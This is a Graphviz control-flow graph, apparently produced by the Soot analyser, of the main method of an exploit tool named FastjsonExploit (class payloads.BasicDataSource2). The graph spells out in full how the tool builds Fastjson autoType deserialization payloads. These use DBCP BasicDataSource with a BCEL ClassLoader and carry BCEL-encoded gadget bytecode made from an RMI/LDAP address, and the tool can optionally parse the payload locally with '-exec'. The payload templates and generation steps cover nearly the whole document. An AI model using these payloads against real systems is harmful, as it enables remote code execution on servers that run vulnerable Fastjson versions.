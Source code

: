digraph "unitGraph" {
    "r0 := @parameter0: java.lang.String[]"
    "$i0 = lengthof r0"
    "if $i0 == 1 goto $r1 = r0[0]"
    "$i2 = lengthof r0"
    "if $i2 == 2 goto $r1 = r0[0]"
    "$r12 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r12.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usge: java -cp FastjsonExploit-<version>.jar payloads.BasicDataSource2 <rmi/ldap address>\")"
    "return"
    "$r1 = r0[0]"
    "r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()"
    "$r3 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r3.<java.io.PrintStream: void println(java.lang.String)>(r2)"
    "r14 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\""
    "r15 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.commons.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\""
    "r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r2)"
    "r16 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1)"
    "$r5 = new java.lang.StringBuilder"
    "specialinvoke $r5.<java.lang.StringBuilder: void <init>()>()"
    "$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\")"
    "$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r16)"
    "r17 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>()"
    "r18 = virtualinvoke r15.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"xxxxxxxxxx\", r17)"
    "$r8 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(r18)"
    "$i1 = lengthof r0"
    "if $i1 != 2 goto (branch)"
    "$r9 = r0[1]"
    "$z0 = virtualinvoke $r9.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")"
    "if $z0 == 0 goto (branch)"
    "$r10 = <java.lang.System: java.io.PrintStream out>"
    "virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")"
    "staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r18)"
    "goto [?= return]"
    "$r13 := @caughtexception"
    "r19 = $r13"
    "virtualinvoke r19.<java.lang.Exception: void printStackTrace()>()"
    "r0 := @parameter0: java.lang.String[]"->"$i0 = lengthof r0";
    "$i0 = lengthof r0"->"if $i0 == 1 goto $r1 = r0[0]";
    "if $i0 == 1 goto $r1 = r0[0]"->"$i2 = lengthof r0";
    "if $i0 == 1 goto $r1 = r0[0]"->"$r1 = r0[0]";
    "$i2 = lengthof r0"->"if $i2 == 2 goto $r1 = r0[0]";
    "if $i2 == 2 goto $r1 = r0[0]"->"$r12 = <java.lang.System: java.io.PrintStream out>";
    "if $i2 == 2 goto $r1 = r0[0]"->"$r1 = r0[0]";
    "$r12 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r12.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usge: java -cp FastjsonExploit-<version>.jar payloads.BasicDataSource2 <rmi/ldap address>\")";
    "virtualinvoke $r12.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Usge: java -cp FastjsonExploit-<version>.jar payloads.BasicDataSource2 <rmi/ldap address>\")"->"return";
    "$r1 = r0[0]"->"r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()";
    "r2 = virtualinvoke $r1.<java.lang.String: java.lang.String trim()>()"->"$r3 = <java.lang.System: java.io.PrintStream out>";
    "$r3 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r3.<java.io.PrintStream: void println(java.lang.String)>(r2)";
    "virtualinvoke $r3.<java.io.PrintStream: void println(java.lang.String)>(r2)"->"r14 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\"";
    "virtualinvoke $r3.<java.io.PrintStream: void println(java.lang.String)>(r2)"->"$r13 := @caughtexception";
    "r14 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\""->"r15 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.commons.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\"";
    "r14 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\""->"$r13 := @caughtexception";
    "r15 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.commons.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\""->"r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r2)";
    "r15 = \"{{\\\"@type\\\":\\\"com.alibaba.fastjson.JSONObject\\\",\\\"c\\\":{\\\"@type\\\":\\\"org.apache.commons.dbcp.BasicDataSource\\\",\\\"driverClassLoader\\\":{\\\"@type\\\":\\\"com.sun.org.apache.bcel.internal.util.ClassLoader\\\"},\\\"driverClassName\\\":\\\"xxxxxxxxxx\\\"}}:\\\"ddd\\\"}\""->"$r13 := @caughtexception";
    "r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r2)"->"r16 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1)";
    "r4 = staticinvoke <gadget.Gadget: byte[] getBasicDataSource1ExpCode(java.lang.String)>(r2)"->"$r13 := @caughtexception";
    "r16 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1)"->"$r5 = new java.lang.StringBuilder";
    "r16 = staticinvoke <com.sun.org.apache.bcel.internal.classfile.Utility: java.lang.String encode(byte[],boolean)>(r4, 1)"->"$r13 := @caughtexception";
    "$r5 = new java.lang.StringBuilder"->"specialinvoke $r5.<java.lang.StringBuilder: void <init>()>()";
    "$r5 = new java.lang.StringBuilder"->"$r13 := @caughtexception";
    "specialinvoke $r5.<java.lang.StringBuilder: void <init>()>()"->"$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\")";
    "specialinvoke $r5.<java.lang.StringBuilder: void <init>()>()"->"$r13 := @caughtexception";
    "$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\")"->"$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r16)";
    "$r6 = virtualinvoke $r5.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(\"$$BCEL$$\")"->"$r13 := @caughtexception";
    "$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r16)"->"r17 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>()";
    "$r7 = virtualinvoke $r6.<java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>(r16)"->"$r13 := @caughtexception";
    "r17 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>()"->"r18 = virtualinvoke r15.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"xxxxxxxxxx\", r17)";
    "r17 = virtualinvoke $r7.<java.lang.StringBuilder: java.lang.String toString()>()"->"$r13 := @caughtexception";
    "r18 = virtualinvoke r15.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"xxxxxxxxxx\", r17)"->"$r8 = <java.lang.System: java.io.PrintStream out>";
    "r18 = virtualinvoke r15.<java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>(\"xxxxxxxxxx\", r17)"->"$r13 := @caughtexception";
    "$r8 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(r18)";
    "$r8 = <java.lang.System: java.io.PrintStream out>"->"$r13 := @caughtexception";
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(r18)"->"$i1 = lengthof r0";
    "virtualinvoke $r8.<java.io.PrintStream: void println(java.lang.String)>(r18)"->"$r13 := @caughtexception";
    "$i1 = lengthof r0"->"if $i1 != 2 goto (branch)";
    "$i1 = lengthof r0"->"$r13 := @caughtexception";
    "if $i1 != 2 goto (branch)"->"$r9 = r0[1]";
    "if $i1 != 2 goto (branch)"->"goto [?= return]";
    "if $i1 != 2 goto (branch)"->"$r13 := @caughtexception";
    "$r9 = r0[1]"->"$z0 = virtualinvoke $r9.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")";
    "$r9 = r0[1]"->"$r13 := @caughtexception";
    "$z0 = virtualinvoke $r9.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")"->"if $z0 == 0 goto (branch)";
    "$z0 = virtualinvoke $r9.<java.lang.String: boolean equals(java.lang.Object)>(\"-exec\")"->"$r13 := @caughtexception";
    "if $z0 == 0 goto (branch)"->"$r10 = <java.lang.System: java.io.PrintStream out>";
    "if $z0 == 0 goto (branch)"->"goto [?= return]";
    "if $z0 == 0 goto (branch)"->"$r13 := @caughtexception";
    "$r10 = <java.lang.System: java.io.PrintStream out>"->"virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")";
    "$r10 = <java.lang.System: java.io.PrintStream out>"->"$r13 := @caughtexception";
    "virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")"->"staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r18)";
    "virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\")"->"$r13 := @caughtexception";
    "staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r18)"->"goto [?= return]";
    "staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r18)"->"$r13 := @caughtexception";
    "goto [?= return]"->"return";
    "$r13 := @caughtexception"->"r19 = $r13";
    "r19 = $r13"->"virtualinvoke r19.<java.lang.Exception: void printStackTrace()>()";
    "virtualinvoke r19.<java.lang.Exception: void printStackTrace()>()"->"return";
}
